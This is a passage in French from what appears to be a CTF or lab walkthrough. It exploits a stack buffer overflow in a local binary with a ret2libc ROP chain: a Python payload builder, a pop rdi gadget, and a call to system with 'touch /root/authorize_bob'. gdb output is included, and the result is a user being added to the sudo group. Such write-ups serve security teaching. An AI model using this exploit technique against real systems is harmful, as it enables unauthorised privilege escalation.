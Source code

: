 On voit qu'au moment de l'instruction `ret` on contrôle ce qui se trouve sur la pile (registre `rsp`).

Je détermine via `pwntools` que `rip` est écrasé à l'offset 21 de notre buffer.

Ensuite j'ai remarqué la chaine de caractères suivante dans l'exécutable à l'adresse `0x55555555495b` : `touch /root/authorize_bob`

Je suppose qu'exécuter cette commande nous ouvrira une porte supplémentaire.

L'adresse de `system` est `0x7ffff7a79480`. Comme on est en 64bits il faut placer l'argument de `system` dans `rdi` ce qui se fait avec le gadget suivant :

```
gdb-peda$ x/2i 0x555555554923
   0x555555554923 <__libc_csu_init+99>: pop    rdi
   0x555555554924 <__libc_csu_init+100>:        ret
```

En bref je génère un input de cette façon :

```python
import struct

pop_rdi_ret = 0x555555554923
authorize_bob = 0x55555555495b
system = 0x7ffff7a79480

with open("input", "wb") as fd:
        fd.write(b"A" * 21)
        fd.write(struct.pack("<q", pop_rdi_ret))
        fd.write(struct.pack("<q", authorize_bob))
        fd.write(struct.pack("<q", system))
        fd.write(b"\n")
```

Via `gdb` je vérifie que la stack est organisée comme je le souhaite au moment de l'exploitation (`./test < input`) :

```
[-------------------------------------code-------------------------------------]
   0x5555555548b2 <main+86>:    call   0x5555555546c0 <getchar@plt>
   0x5555555548b7 <main+91>:    mov    eax,0x0
   0x5555555548bc <main+96>:    leave  
=> 0x5555555548bd <main+97>:    ret    
   0x5555555548be:      xchg   ax,ax
   0x5555555548c0 <__libc_csu_init>:    push   r15
   0x5555555548c2 <__libc_csu_init+2>:  push   r14
   0x5555555548c4 <__libc_csu_init+4>:  mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe5b8 --> 0x555555554923 (<__libc_csu_init+99>:  pop    rdi)
0008| 0x7fffffffe5c0 --> 0x55555555495b ("touch /root/authorize_bob")
0016| 0x7fffffffe5c8 --> 0x7ffff7a79480 (<__libc_system>:       test   rdi,rdi)
```

Tout est nickel. Je surveille les processus avec `pspy` et voit que `bob` est rajouté au groupe `sudo` :
